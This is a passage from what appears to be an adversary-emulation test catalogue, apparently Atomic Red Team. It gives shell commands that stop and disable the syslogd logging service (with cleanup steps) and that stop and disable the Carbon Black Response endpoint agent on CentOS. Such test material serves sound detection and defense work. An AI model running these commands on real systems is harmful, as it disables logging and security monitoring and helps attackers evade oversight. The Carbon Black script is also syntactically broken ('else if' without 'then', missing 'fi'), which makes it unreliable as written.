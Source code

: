 **Supported Platforms:** Linux


**auto_generated_guid:** db9de996-441e-4ae0-947b-61b6871e2fdf






#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
service syslogd stop
sysrc syslogd_enable="NO"
```

#### Cleanup Commands:
```sh
sysrc syslogd_enable="YES"
service syslogd start
```





<br/>
<br/>

## Atomic Test #3 - Disable Cb Response
Disable the Cb Response service

**Supported Platforms:** Linux


**auto_generated_guid:** ae8943f7-0f8d-44de-962d-fbc2e2f03eb8






#### Attack Commands: Run with `sh`! 


```sh
if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "6" ];
then
  service cbdaemon stop
  chkconfig off cbdaemon
else if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "7" ];
  systemctl stop cbdaemon
  systemctl disable cbdaemon
fi
```






<br/>
<br/>
